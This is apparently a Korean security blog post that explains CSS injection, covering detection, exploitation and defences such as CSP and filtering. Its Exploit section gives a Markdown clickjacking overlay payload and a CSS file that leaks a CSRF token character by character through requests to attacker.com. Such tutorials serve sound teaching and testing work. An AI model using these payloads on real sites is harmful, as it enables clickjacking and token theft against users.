 ```yaml
---
layout: post
title: CSS Injection
subtitle: Style 속성 및 태그를 활용한 공격
author: g3rm
categories: Web
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - Style
  - CSS
  - Clickjacking
  - KeyLogging
  - WEB
sidebar:
---
```

## Intro
CSS Injection은 사용자가 `<style>` 태그 혹은 style 속성을 임의로 삽입할 수 있을 때 나타나는 취약점입니다.   

해당 취약점은 그 자체 위험도는 크지 않다고 생각하지만, User Interaction이 필요한 취약점을 쉽게 트리거 되도록 만들 수 있습니다.   

주로 `<a>` 태그에 사용하여 ***사용자의 클릭을 하이제킹***하는 Payload를 사용합니다. 혹은 `<style>`, `<link>` 태그가 삽입이 가능할 시 .css 파일을 불러올 수 있어 이 때는 ***Keylogging 혹은 CSRF 토큰 탈취*** 용도로 Payload를 작성할 수 있습니다.
## Detect & Exploit 
### Detect
탐지 방법의 경우 XSS와 유사합니다.   
`<style>` 태그 및 style 속성을 임의로 삽입할 수 있는 지 여부를 살피면 됩니다.
### Exploit
> 🕶️ Clickjacking 목적이라면 부모 태그를 벗어나 페이지 어디에나 위치시킬 수 있는 `position` 속성이 가장 중요합니다. 

```Markdown
# In Markdown
[Clickjacking](https://attack.com"style="position:fixed;top:0;left:0;width:100vw;height:100vh;background-color:transparent;z-index:9999;)

# In Custom Color Setting
bgColor=#000%3B%20position:fixed%3B...[위와 동일]
```

```
# In Tag
<style>@import ("https://attacker.com/POC.css")</style>

# POC.css
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);   
}
```

## Security Measures
가장 좋은 방법은 사용자가 임의로 `<style>` 태그 및 속성을 삽입할 수 없도록 조치하는 것입니다.   
서비스 특성 상 해당 조치 방법이 어려울 경우 CSP 정책을 통해 외부 링크에서 .css 파일을 가져오지 못하도록 하고, `position` 속성 등을 필터링 하여 악성 링크가 담긴 태그가 페이지 내 자유롭게 위치할 수 없도록 해야 합니다.
## References
[Better Exfiltration via HTML Injection](https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b)
[CSS Injection](https://book.hacktricks.xyz/kr/pentesting-web/xs-search/css-injection)